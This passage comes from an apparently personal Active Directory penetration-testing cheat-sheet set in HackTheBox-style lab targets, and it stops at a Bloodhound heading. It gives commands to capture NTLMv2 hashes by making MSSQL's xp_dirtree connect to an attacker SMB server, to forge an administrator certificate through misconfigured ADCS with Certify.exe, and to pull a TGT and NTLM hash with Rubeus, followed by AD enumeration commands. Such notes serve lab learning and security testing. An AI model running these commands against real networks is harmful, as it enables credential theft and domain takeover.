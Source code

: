 #### MITM with mssql
---
Once we re inside the MSSQL we can try to force a conexion with our smbserver to try catching its hash NTLMv2

````bash
impacket-smbserver share /tmp/share -ip 10.10.14.9 -smb2support # Create your smbserver
EXEC xp_dirtree '\\10.10.14.9\share', 1, 1 # Make the msql connect to the smbserver
````
### Active Directory Certificate Services (ADCS)
---

This vulnerability arises when the Active Directory Certificate Services (ADCS) are improperly configured. In such cases, attackers can potentially request and obtain certificates from the enterprise CA without proper authorization. These misconfigurations can allow an attacker to enroll for certificates that grant elevated privileges or enable impersonation of legitimate users. By exploiting this weakness, an attacker could escalate privileges or move laterally within the network.

#### Certify.exe
---
With <a href="https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_x64/Certify.exer" target="_blank">Certify.exe</a>, we can test if the victim machine’s ADCS setup is susceptible to unauthorized certificate enrollment and assess the associated risks

````powershell
.\Certify.exe find /vulnerable /currentuser # Confirm if its vulnerable
.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator # Make a fake certificate
````
#### Rubeus.exe
---
<a href="https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_x64/Rubeus.exe" target="_blank">Rubeus.exe</a> a powerful tool for interacting with Kerberos tickets in Windows environments. In this context, we will use it to request a **Ticket Granting Ticket (TGT)** using the certificate we obtained and in this case we also get the hash NTLM.

````powershell
.\Rubeus.exe asktgt /user:administrator /certificate:cert.pfx /getcredentials /show /nowrap
````

##  ABUSE OF PRIVILEGES
---
### Enumerating privileges
---
#### Common commnds
---
````powershell
whoami -all
whoami -groups
Get-Module
Import-Module ActiveDirectory
Get-ADDomain
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
Get-ADTrust -Filter *
Get-ADGroup -Filter * | select name
Get-ADGroup -Identity "Backup Operators"
Get-ADGroupMember -Identity "Backup Operators"
````
#### Bloodhound for enumerating privileges
---